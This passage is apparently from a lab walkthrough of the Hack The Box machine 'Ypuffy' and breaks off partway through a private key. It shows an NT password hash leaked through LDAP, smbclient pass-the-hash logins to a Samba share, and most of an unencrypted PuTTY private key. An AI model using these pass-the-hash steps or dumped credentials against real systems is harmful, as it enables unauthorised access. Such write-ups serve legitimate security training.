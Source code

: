 |         sambaMinPwdAge: 0
|         sambaLockoutDuration: 30
|         sambaLockoutObservationWindow: 30
|         sambaLockoutThreshold: 0
|         sambaForceLogoff: -1
|         sambaRefuseMachinePwdChange: 0
|_        sambaNextRid: 1001
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 27.97 seconds
{% endhighlight %}

### 2.Getting User
In this nmap result, we can find sambaNTPassword.
{% highlight shell %}
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
{% endhighlight %}
Then, try to list shared samba folders as user "alice1978".
{% highlight shell %}
root@kali:~# smbclient -W ypuffy -U alice1978 --pw-nt-hash -L 10.10.10.107
Enter YPUFFY\alice1978's password:    # password 0B186E661BBDBDCF6047784DE8B9FD8B

	Sharename       Type      Comment
	---------       ----      -------
	alice           Disk      Alice's Windows Directory
	IPC$            IPC       IPC Service (Samba Server)
SMB1 disabled -- no workgroup available
{% endhighlight %}
We found a share its name is "alice".<br>
Let's enumerate.
{% highlight shell %}
root@kali:~# smbclient -W ypuffy -U alice1978 --pw-nt-hash //10.10.10.107/alice
Enter YPUFFY\alice1978's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jul 31 05:54:20 2018
  ..                                  D        0  Wed Aug  1 06:16:50 2018
  my_private_key.ppk                  A     1460  Tue Jul 17 04:38:51 2018

		433262 blocks of size 1024. 411540 blocks available
{% endhighlight %}
There is only one file. As we can see on its header, it is a key file for PuTTY.
{% highlight shell %}
root@kali:~# cat my_private_key.ppk 
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: rsa-key-20180716
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
Private-Lines: 14
AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC